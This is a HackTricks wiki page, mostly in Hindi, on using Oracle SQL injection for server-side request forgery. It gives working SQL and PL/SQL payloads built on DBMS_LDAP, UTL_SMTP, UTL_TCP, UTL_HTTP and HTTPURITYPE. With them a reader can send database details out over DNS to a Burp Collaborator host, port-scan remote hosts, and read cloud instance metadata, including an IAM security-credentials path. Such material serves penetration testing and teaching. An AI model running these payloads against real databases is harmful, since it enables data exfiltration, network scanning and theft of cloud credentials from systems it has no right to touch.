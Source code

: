 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**इस पोस्ट को [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/) से हटाए गए पोस्ट की वेब आर्काइव कॉपी सर्व करें।**

## SSRF

Oracle का उपयोग Out of Band HTTP और DNS अनुरोध करने के लिए अच्छी तरह से प्रलेखित है लेकिन SQL डेटा को एक्सफिल्ट्रेट करने के एक साधन के रूप में। हम हमेशा इन तकनीकों/फंक्शंस को अन्य SSRF/XSPA करने के लिए संशोधित कर सकते हैं।

Oracle स्थापित करना वास्तव में दर्दनाक हो सकता है, विशेष रूप से यदि आप कमांड आजमाने के लिए एक त्वरित उदाहरण सेट करना चाहते हैं। मेरे दोस्त और सहयोगी [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), ने मुझे [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) की ओर इशारा किया जिसने मुझे एक t2.large AWS Ubuntu मशीन और Docker पर एक उदाहरण सेट करने की अनुमति दी।

मैंने `--network="host"` फ्लैग के साथ docker कमांड चलाया ताकि मैं इस ब्लॉग पोस्ट के दौरान Oracle को पूर्ण नेटवर्क एक्सेस के साथ एक मूल स्थापना के रूप में अनुकरण कर सकूं।
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Oracle पैकेज जो URL या Hostname/Port Number विनिर्देशन का समर्थन करते हैं <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

किसी भी पैकेज और कार्यों को खोजने के लिए जो एक होस्ट और पोर्ट विनिर्देशन का समर्थन करते हैं, मैंने [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html) पर एक Google खोज की। विशेष रूप से,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
The search returned the following results (not all can be used to perform outbound network)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

यह कच्चा खोज स्पष्ट रूप से `DBMS_LDAP` जैसे पैकेजों को छोड़ देता है (जो एक होस्टनाम और पोर्ट नंबर पास करने की अनुमति देता है) क्योंकि [डॉक्यूमेंटेशन पृष्ठ](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) आपको [एक अलग स्थान](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) पर ले जाता है। इसलिए, अन्य Oracle पैकेज हो सकते हैं जिन्हें आउटबाउंड अनुरोध करने के लिए दुरुपयोग किया जा सकता है जिन्हें मैंने छोड़ दिया हो सकता है।

किसी भी मामले में, आइए उन कुछ पैकेजों पर नज़र डालते हैं जिन्हें हमने खोजा और ऊपर सूचीबद्ध किया है।

**DBMS\_LDAP.INIT**

`DBMS_LDAP` पैकेज LDAP सर्वरों से डेटा तक पहुंच की अनुमति देता है। `init()` फ़ंक्शन एक LDAP सर्वर के साथ एक सत्र को प्रारंभ करता है और एक होस्टनाम और पोर्ट नंबर को एक तर्क के रूप में लेता है।

इस फ़ंक्शन को पहले DNS के माध्यम से डेटा के निष्कर्षण को दिखाने के लिए दस्तावेजित किया गया है, जैसे नीचे
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
हालांकि, यह देखते हुए कि यह फ़ंक्शन एक होस्टनाम और एक पोर्ट नंबर को तर्क के रूप में स्वीकार करता है, आप इसका उपयोग पोर्ट स्कैनर की तरह भी कर सकते हैं।

यहाँ कुछ उदाहरण हैं
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` यह दिखाता है कि पोर्ट बंद है जबकि एक सत्र मान पोर्ट को खुला दिखाता है।

**UTL\_SMTP**

`UTL_SMTP` पैकेज SMTP के माध्यम से ई-मेल भेजने के लिए डिज़ाइन किया गया है। [Oracle दस्तावेज़ साइट पर प्रदान किया गया उदाहरण दिखाता है कि आप इस पैकेज का उपयोग करके ई-मेल कैसे भेज सकते हैं](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478)। हमारे लिए, हालांकि, दिलचस्प बात यह है कि एक होस्ट और पोर्ट विनिर्देशन प्रदान करने की क्षमता है।

एक कच्चा उदाहरण नीचे `UTL_SMTP.OPEN_CONNECTION` फ़ंक्शन के साथ दिखाया गया है, जिसमें 2 सेकंड का टाइमआउट है।
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
A `ORA-29276: transfer timeout` यह दिखाता है कि पोर्ट खुला है लेकिन कोई SMTP कनेक्शन स्थापित नहीं हुआ जबकि एक `ORA-29278: SMTP transient error: 421 Service not available` यह दिखाता है कि पोर्ट बंद है।

**UTL\_TCP**

`UTL_TCP` पैकेज और इसके प्रक्रियाएँ और फ़ंक्शन [सेवाओं के साथ TCP/IP आधारित संचार की अनुमति देते हैं](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190)। यदि किसी विशेष सेवा के लिए प्रोग्राम किया गया है, तो यह पैकेज नेटवर्क में प्रवेश करने का एक आसान तरीका बन सकता है या पूर्ण सर्वर साइड अनुरोध कर सकता है क्योंकि TCP/IP कनेक्शन के सभी पहलुओं को नियंत्रित किया जा सकता है।

उदाहरण [Oracle दस्तावेज़ साइट पर दिखाता है कि आप इस पैकेज का उपयोग करके एक कच्चा TCP कनेक्शन कैसे बना सकते हैं ताकि एक वेब पृष्ठ को प्राप्त किया जा सके](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190)। हम इसे थोड़ा और सरल बना सकते हैं और इसका उपयोग मेटाडेटा उदाहरण के लिए या किसी मनमाने TCP/IP सेवा के लिए अनुरोध करने के लिए कर सकते हैं।
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
दिलचस्प बात यह है कि कच्चे TCP अनुरोध बनाने की क्षमता के कारण, इस पैकेज का उपयोग सभी क्लाउड प्रदाताओं के Instance मेटा-डेटा सेवा को क्वेरी करने के लिए भी किया जा सकता है क्योंकि विधि प्रकार और अतिरिक्त हेडर सभी TCP अनुरोध के भीतर पास किए जा सकते हैं।

**UTL\_HTTP और वेब अनुरोध**

शायद हर Out of Band Oracle SQL Injection ट्यूटोरियल में सबसे सामान्य और व्यापक रूप से प्रलेखित तकनीक [`UTL_HTTP` पैकेज](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070) है। इस पैकेज को प्रलेखन द्वारा इस प्रकार परिभाषित किया गया है - `UTL_HTTP पैकेज SQL और PL/SQL से हाइपरटेक्स्ट ट्रांसफर प्रोटोकॉल (HTTP) कॉलआउट करता है। आप इसका उपयोग HTTP के माध्यम से इंटरनेट पर डेटा तक पहुँचने के लिए कर सकते हैं।`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
आप इसके साथ कुछ मौलिक पोर्ट स्कैनिंग करने के लिए भी इसका उपयोग कर सकते हैं, जैसे कि प्रश्नों के साथ
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
A `ORA-12541: TNS:no listener` या `TNS:operation timed out` यह संकेत है कि TCP पोर्ट बंद है, जबकि `ORA-29263: HTTP protocol error` या डेटा यह संकेत है कि पोर्ट खुला है।

एक और पैकेज जिसका मैंने अतीत में विभिन्न सफलताओं के साथ उपयोग किया है वह है [`GETCLOB()` विधि `HTTPURITYPE` Oracle अमूर्त प्रकार की](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705) जो आपको एक URL के साथ इंटरैक्ट करने की अनुमति देती है और HTTP प्रोटोकॉल के लिए समर्थन प्रदान करती है। `GETCLOB()` विधि का उपयोग एक URL से GET प्रतिक्रिया को [CLOB डेटा प्रकार](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html) के रूप में लाने के लिए किया जाता है। [select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
